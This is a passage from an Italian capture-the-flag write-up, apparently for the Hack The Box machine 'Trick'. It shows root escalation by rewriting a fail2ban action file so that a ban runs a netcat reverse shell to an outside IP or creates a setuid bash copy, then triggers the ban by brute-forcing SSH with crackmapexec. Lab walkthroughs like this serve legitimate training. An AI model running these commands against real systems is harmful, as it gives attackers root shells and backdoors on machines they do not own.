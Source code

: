 dobbiamo modificare il file iptables-multiport.conf presente in /etc/fail2ban/action.d

Tuttavia, non abbiamo accesso in scrittura a quel file, né è di proprietà di qualcosa a cui possiamo accedere. Tuttavia, la directory è di proprietà di security , il che significa che possiamo spostare i file e sostituirli.

```
# Option:  actionban
# Notes.:  command executed when banning an IP. Take care that the
#          command is executed with Fail2Ban user rights.
# Tags:    See jail.conf(5) man page
# Values:  CMD
#
actionban = /urs/bin/nc -e /usr/bin/bash 10.10.14.18 1337    #questo è il payload per nc

# Option:  actionunban
# Notes.:  command executed when unbanning an IP. Take care that the
#          command is executed with Fail2Ban user rights.
# Tags:    See jail.conf(5) man page
# Values:  CMD
#
actionunban = <iptables> -D f2b-<name> -s <ip> -j <blocktype>

[Init]
```
Copiamo il file per avere permessi di scrittura 

```
michael@trick:/etc/fail2ban$ mv iptables-multiport.conf .old
michael@trick:/etc/fail2ban$ cp .old iptables-multiport.conf
```
modifichiamo il file alla riga actionban

```
# Option: actionban 
# Notes.: command executed when banning an IP. Take care that the # command is executed with Fail2Ban user rights. 
# Tags: See jail.conf(5) man page # Values: CMD 
# 
actionban = cp /bin/bash /tmp/xRabbit; chmod 4777 /tmp/xRabbit
```
Ricarichiamo le nuove impostazioni

```
michael@trick:/etc/fail2ban$ sudo /etc/init.d/fail2ban restart 
```

Utilizziamo crackmapexec per triggerare il ban di fail2ban

```bash
┌──(root㉿kali)-[/home/kali/htb/trick]
└─# crackmapexec ssh trick.htb -u xRabbit -p /usr/share/wordlists/rockyou.txt
[*] First time use detected
[*] Creating home directory structure
[*] Creating default workspace
[*] Initializing LDAP protocol database
[*] Initializing FTP protocol database
[*] Initializing WINRM protocol database
[*] Initializing SSH protocol database
[*] Initializing SMB protocol database
[*] Initializing RDP protocol database
[*] Initializing MSSQL protocol database
[*] Copying default configuration file
[*] Generating SSL certificate
SSH         trick.htb       22     trick.htb        [*] SSH-2.0-OpenSSH_7.9p1 Debian-10+deb10u2
SSH         trick.htb       22     trick.htb        [-] xRabbit:123456 Authentication failed.
SSH         trick.htb       22     trick.htb        [-] xRabbit:12345 Authentication failed.
SSH         trick.htb       22     trick.htb        [-] xRabbit:123456789 Authentication failed.
```